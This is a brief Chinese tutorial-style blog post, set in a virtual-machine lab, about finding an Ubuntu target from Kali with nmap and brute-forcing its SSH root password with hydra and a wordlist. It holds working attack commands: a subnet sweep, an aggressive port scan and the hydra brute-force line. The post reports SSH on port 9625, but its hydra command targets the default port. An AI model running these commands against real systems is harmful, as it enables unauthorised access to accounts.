 ```yaml
---
title: hydra破解ssh
date: 2019-04-01 18:07:32
tags:
---
```


环境：攻击者kali
靶机：ubuntu18.04

都是虚拟机

在kali上先查看子网情况

`ifconfig`

找出网关地址为192.168.27.1，掩码为255.255.255.0，所以前缀为24

扫描子网，找出靶机：

`nmap 192.168.27.1/24`

发现了靶机ubuntu，ip地址为192.168.27.128

扫描端口

`nmap -A 192.168.27.128`

发现了端口9625为ssh端口

用hydra破解ssh

`hydra -l root -P 字典 -t 4  ssh://192.168.27.128`